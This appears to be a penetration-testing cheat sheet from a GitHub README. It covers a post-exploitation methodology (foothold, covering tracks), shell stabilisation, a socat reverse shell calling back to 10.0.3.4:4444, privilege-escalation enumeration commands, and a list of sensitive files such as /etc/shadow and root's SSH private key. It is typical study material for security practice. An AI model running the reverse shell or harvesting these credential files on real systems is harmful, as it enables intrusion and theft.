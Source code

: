 # Cheat Sheet
___________

    Recon - Scan for vulnarable targets, gather info on target.
    Collect - Enumeration, more enumeration and some more enumeration.
    Process - Sort through data, analyse and prioritisation.
    Search - Know what to search for and where to find the exploit code.
    	Determining the kernel of the machine (kernel exploitation such as Dirtyc0w)
    	Locating other services running or applications installed that may be abusable (SUID & out of date software)
    	Looking for automated scripts like backup scripts (exploiting crontabs)
    	Credentials (user accounts, application config files..)
    	Mis-configured file and directory permissions
    Adapt - Customize the exploit, so it fits. Not every exploit work for every system "out of the box".
    Try - Get ready for (lots of) trial and error.
    Stay - Get a permanent foothold
    Cleanup - Leave no trace behinde
___________

## Stabilize Shell
```
python -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm

stty raw -echo; fg
```
## Get reverse shell

atk:
```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```
victim:
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
## Useful enumeration comands Linux

List all processes runing as root
```
ps -aux | grep root
```
List all executibles with SUID set
```
find / -perm -u=s -type f 2>/dev/null
```
List what can be run with higher privileges
```
sudo -l
```
## Useful enumeration comands Linux

```
net users
```

```
systeminfo | findstr /B /C: "OS Name"/C: "OS Version"
```

```
wmic service list
```

## Usefull common Linux commands

Make file executable
```
chmod +x filename
```
Double click in terminal
```
xdg-open [FILENAME]
```
What shell am I using
```
echo $0
```
Only show matches
```
2> /dev/null
```
Execute command/use file as another user
```
sudo -u "username" "path/to/command" "path/to/file"
```
## Python helper
Start a quick HTTP server
```
python3 -m http.server [PORT]
```
Spawn a shell
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
## Other Stuff

### Dirbuster

List of common file extentions
```
php, pl, sh, asp, html, json, py, cfm, aspx, rb, cgi
```
## Useful Places to look

Location	Description

/etc/issue
	contains a message or system identification to be printed before the login prompt.

/etc/profile
	

controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived

/proc/version
	specifies the version of the Linux kernel

/etc/passwd
	has all registered user that has access to a system

/etc/shadow
	contains information about the system's users' passwords

/root/.bash_history
	

contains the history commands for root user

/var/log/dmessage
	contains global system messages, including the messages that are logged during system startup

/var/mail/root
	

all emails for root user

/root/.ssh/id_rsa
	Private SSH keys for a root or any known valid user on the server

/var/log/apache2/access.log
	

the accessed requests for Apache  webserver

C:\boot.ini
	contains the boot options for computers with BIOS firmware
